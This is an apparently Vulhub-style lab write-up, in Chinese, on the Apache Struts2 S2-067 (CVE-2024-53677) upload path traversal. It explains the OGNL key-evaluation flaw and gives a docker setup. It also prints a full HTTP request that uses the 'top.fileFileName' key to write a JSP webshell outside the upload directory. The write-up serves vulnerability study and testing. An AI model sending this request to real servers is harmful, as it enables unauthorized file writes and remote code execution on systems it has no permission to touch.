


Struts2 S2-067 文件上传路径穿越漏洞（CVE-2024-53677）¶
Apache Struts2 是一个流行的开源 Web 应用框架，用于开发 Java EE Web 应用。它使用并扩展了 Java Servlet API，鼓励开发者采用模型-视图-控制器（MVC）架构。该框架为开发者提供了丰富的标签和实用工具，以创建易于维护和扩展的企业级 Web 应用。
S2-067 是 S2-066 漏洞的变种，产生于对 S2-066 的不完全修复。S2-066 是由于大小写敏感性比较问题导致文件名被覆盖而造成目录穿越，而 S2-067 则利用了另一种机制达到相同的目的。
在 Struts2 中，所有参数在传递时，参数的键名都会进行 OGNL 表达式的计算。这个特性历史上曾导致多次通过 OGNL 表达式注入实现远程命令执行的漏洞。虽然 Struts2 已经实现了严格的参数键名验证来防止 RCE 漏洞，但表达式计算仍然会发生。S2-067 就是利用这个表达式计算机制，再次覆盖上传文件时的文件名，最终导致目录穿越问题。
参考链接：
- https://cwiki.apache.org/confluence/display/WW/s2-067
- https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/
环境搭建¶
执行以下命令启动一个用 Struts2 2.5.33 编写的 Web 服务器：
docker compose up -d
环境启动后，访问 http://your-ip:8080 即可看到应用页面，这是一个简单的文件上传页面。
漏洞复现¶
在复现 S2-067 漏洞之前，需要先阅读 S2-066 并理解漏洞的原理。
在这个环境中，我们已经不能使用与 S2-066 相同的 payload，因为大小写敏感性问题已被修复：

将 OGNL 表达式 top.fileFileName 作为文件名参数键名的一部分，文件将再次被上传到受限上传目录之外：
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 335
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: text/plain
<%
out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="top.fileFileName"
../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
注意利用过程中的关键要素：
- 不同于 S2-066 利用大小写敏感性，这里使用了参数键名中的 OGNL 表达式计算
- 参数键名
top.fileFileName会被作为 OGNL 表达式进行计算 - 这个计算允许我们使用路径穿越 payload
../shell.jsp覆盖文件名

JSP 文件现在被上传到了受限上传目录之外，并且可以被执行：

现在你可以通过访问 http://your-ip:8080/shell.jsp 来访问 webshell。